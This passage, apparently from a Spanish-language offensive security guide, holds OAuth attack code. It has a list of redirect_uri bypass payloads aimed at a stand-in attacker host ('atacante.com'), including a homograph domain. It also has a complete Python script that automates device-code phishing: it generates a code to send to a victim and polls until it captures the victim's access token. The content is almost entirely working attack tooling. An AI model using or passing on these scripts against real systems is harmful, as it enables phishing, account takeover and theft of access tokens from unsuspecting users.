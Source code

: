 ```python
          
    return results

# Payloads comunes
payloads = [
    "https://atacante.com/callback",
    "https://victima.com@atacante.com/callback", 
    "https://victima.com/callback/../../redirect",
    "https://victima.com/callback?to=https://atacante.com",
    "https://víctima.com/callback"  # IDN homograph
]

results = test_redirect_uri_bypass("https://victima.com", "12345", payloads)
```

### Device Code Automation

```python
#!/usr/bin/env python3
import requests
import time
import json

def device_code_attack(client_id, scope, auth_url, token_url):
    """
    Automatiza device code phishing
    """
    # Paso 1: Iniciar device authorization
    device_data = {
        'client_id': client_id,
        'scope': scope
    }
  
    response = requests.post(f"{auth_url}/device_authorization", data=device_data)
    device_info = response.json()
  
    print(f"[+] Device Code: {device_info['device_code']}")
    print(f"[+] User Code: {device_info['user_code']}")
    print(f"[+] Verification URL: {device_info['verification_uri']}")
    print(f"\n[!] Envía a la víctima: {device_info['verification_uri']}")
    print(f"[!] Código a ingresar: {device_info['user_code']}")
  
    # Paso 2: Polling para tokens
    print("\n[*] Esperando autenticación de víctima...")
  
    while True:
        token_data = {
            'grant_type': 'urn:ietf:params:oauth:grant-type:device_code',
            'device_code': device_info['device_code'],
            'client_id': client_id
        }
      
        token_response = requests.post(f"{token_url}/token", data=token_data)
        token_result = token_response.json()
      
        if 'access_token' in token_result:
            print(f"\n[+] ¡ÉXITO! Access Token obtenido:")
            print(f"    {token_result['access_token']}")
            return token_result
          
        elif token_result.get('error') == 'authorization_pending':
            time.sleep(device_info.get('interval', 5))
            continue
```
